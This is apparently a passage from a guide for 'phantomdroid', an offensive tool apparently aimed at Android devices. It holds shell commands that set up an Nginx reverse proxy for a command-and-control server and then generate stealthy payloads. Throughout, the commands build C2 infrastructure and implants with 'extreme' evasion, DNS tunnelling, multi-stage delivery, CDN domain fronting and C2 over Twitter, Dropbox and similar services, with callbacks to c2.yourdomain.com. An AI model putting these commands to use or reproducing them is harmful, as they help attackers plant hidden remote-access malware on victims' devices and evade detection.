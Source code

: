 #### **3.2 Nginx Reverse Proxy**
```bash
# Create Nginx configuration
sudo nano /etc/nginx/sites-available/phantomdroid

# Add configuration:
server {
    listen 80;
    server_name yourdomain.com c2.yourdomain.com;
    return 301 https://$server_name$request_uri;
}

server {
    listen 443 ssl;
    server_name c2.yourdomain.com;
    
    ssl_certificate /etc/letsencrypt/live/yourdomain.com/fullchain.pem;
    ssl_certificate_key /etc/letsencrypt/live/yourdomain.com/privkey.pem;
    
    location / {
        proxy_pass http://127.0.0.1:8080;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
    }
}

# Enable site
sudo ln -s /etc/nginx/sites-available/phantomdroid /etc/nginx/sites-enabled/
sudo nginx -t
sudo systemctl restart nginx
```

### **Step 4: Public Network Payload Generation**

#### **4.1 Generate Public Network Payload**
```bash
# Generate HTTPS payload for public network
./phantomdroid.sh --payload http --lhost c2.yourdomain.com --lport 443 --evasion extreme --ssl

# Generate DNS tunneling payload (more stealthy)
./phantomdroid.sh --payload dns --lhost yourdomain.com --lport 53 --evasion extreme

# Generate multi-stage payload
./phantomdroid.sh --payload tcp --lhost c2.yourdomain.com --lport 4444 --evasion extreme --multi-stage
```

#### **4.2 Advanced Payload Options**
```bash
# Domain fronting payload (using CDN)
./phantomdroid.sh --payload http --lhost cloudfront.amazonaws.com --domain-front c2.yourdomain.com --lport 443

# Social media C2 (Twitter/Telegram)
./phantomdroid.sh --payload social --platform twitter --api-key YOUR_API_KEY

# Cloud storage C2 (Dropbox/Google Drive)
./phantomdroid.sh --payload cloud --provider dropbox --token YOUR_TOKEN
```
